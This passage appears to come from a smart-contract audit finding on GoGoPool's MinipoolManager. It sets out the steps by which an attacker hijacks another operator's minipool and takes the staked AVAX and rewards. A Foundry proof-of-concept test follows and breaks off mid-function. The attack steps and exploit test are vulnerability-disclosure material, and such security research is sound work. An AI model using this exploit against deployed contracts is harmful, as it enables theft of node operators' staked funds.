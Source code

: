 1. Hacker creates a node and creates a minipool `node-1337`.
2. NodeOp registers a nodeID `node-123` for 28 days duration and finished the 14 days stake period. State is `Withdrawable`.
3. Hacker calls `createMinipool` with `node-1234` and deposits 1000 AVAX. Hacker is now owner of minipool
4. Rialto calls `recreateMinipool` to restake the minipool in Avalanche. (This time: the owner is the hacker, the hardware is NodeOp)
5. 14 days have passed, hacker can withdraw the rewards and 1000 staked AVAX
6. NodeOps cannot withdraw staked AVAX.

**Foundry POC**

The POC will demonstrate scenario #1.

Add the following test to `MinipoolManager.t.sol`:\
[https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/MinipoolManager.t.sol#L175](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/MinipoolManager.t.sol#L175)

```
	function testHijackMinipool() public {
		uint256 duration = 2 weeks;
		uint256 depositAmt = 1000 ether;
		uint256 avaxAssignmentRequest = 1000 ether;
		uint256 rewards = 10 ether;
		uint256 expectedRewards = (rewards/2)+(rewards/2).mulWadDown(dao.getMinipoolNodeCommissionFeePct());
		uint256 validationAmt = depositAmt + avaxAssignmentRequest;
		uint128 ggpStakeAmt = 100 ether;
		address hacker = address(0x1337);
		// Fund hacker with exact AVAX and gpp
		vm.deal(hacker, depositAmt*2);
		dealGGP(hacker, ggpStakeAmt);
		// Fund nodeOp with exact AVAX and gpp
		nodeOp = address(0x123);
		vm.deal(nodeOp, depositAmt);
		dealGGP(nodeOp, ggpStakeAmt);

		// fund ggAVAX
		address lilly = getActorWithTokens("lilly", MAX_AMT, MAX_AMT);
		vm.prank(lilly);
		ggAVAX.depositAVAX{value: MAX_AMT}();
		assertEq(lilly.balance, 0);

		vm.startPrank(hacker);
		// Hacker stakes GGP
		ggp.approve(address(staking), ggpStakeAmt);
		staking.stakeGGP(ggpStakeAmt);

		// Create minipool for hacker
		MinipoolManager.Minipool memory hackerMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
		vm.stopPrank();

		vm.startPrank(nodeOp);
		// nodeOp stakes GGP
		ggp.approve(address(staking), ggpStakeAmt);
		staking.stakeGGP(ggpStakeAmt);

		// Create minipool for nodeOp
		MinipoolManager.Minipool memory nodeOpMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
		vm.stopPrank();

		// Rialto stakes both hackers and nodeOp in avalanche
		vm.startPrank(address(rialto));
```